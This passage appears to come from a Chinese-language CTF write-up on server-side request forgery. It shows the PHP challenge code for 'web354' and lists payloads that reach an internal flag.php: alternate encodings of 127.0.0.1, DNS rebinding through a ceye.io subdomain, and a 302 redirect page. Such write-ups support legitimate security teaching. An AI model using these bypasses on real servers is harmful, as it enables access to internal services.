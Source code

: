```php
POST
url=http://2130706433/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
url=http://0x7f.0.0.1/flag.php
url=http://0177.0.0.1/flag.php
```

#### web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

直接把0和1都过滤了，上面的办法都行不通了

现在的思路就是，找一个域名指向的是`127.0.0.1`

有下面几种思路

DNS-Rebinding攻击绕过

```php
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```php
<?php
header("Location:http://127.0.0.1/flag.php");
```

或者说有点丧心病狂的方式
